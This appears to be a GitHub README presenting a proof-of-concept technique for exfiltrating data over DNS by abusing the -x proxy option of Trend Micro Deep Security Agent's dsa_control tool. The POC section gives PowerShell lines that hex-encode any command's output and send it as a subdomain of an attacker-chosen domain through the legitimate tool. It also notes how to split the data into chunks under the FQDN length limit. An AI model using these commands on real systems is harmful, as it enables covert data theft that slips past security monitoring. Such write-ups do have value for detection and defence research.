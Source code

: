 ## Trend Micro Deep Security Agent: DNS Exfiltration using legitimate CLI tool

<img src="assets/logo.png" width=150>

An interesting way of using the `dsa_control` CLI tool, included in `Trend Micro's Deep Security Agent (DSA)` solution, specifically its `-x` proxy feature, is that an actor can "abuse" it to make the tool resolve a given domain with out breaking the existing DSA configuration. This could allow data to be exfiltrated using a legitimate tool.

⚠️NOTE: Using the `-x` proxy option may interrupt communication between the specific agent and Trend Cloud One.

Requirements:
- Administrative privileges
- Trend Micro Deep Security Agent Installed

dsa_control path: (default)
- `C:\Program Files\Trend Micro\Deep Security Agent\`

⚠️NOTE: The entire FQDN has a max length of 255 characters, so the exfiltrated data must be sent in chunks(if necessary).

- [Trend Micro Configuration](#trend-micro-configuration)
- [POC](#poc)
- [Example](#example)

## Trend Micro Configuration
![alt text](assets/3.png)


## POC
```powershell
$cmd = -join ([System.Text.Encoding]::UTF8.GetBytes((<COMMAND>)) | ForEach-Object { "{0:x2}" -f $_ }) # Convert command output to HEX
```

```powershell
dsa_control.cmd -x "dsm_proxy://$cmd.<domain>:443/"
```

## Example
![alt text](assets/2.PNG)

![alt text](assets/1.png)

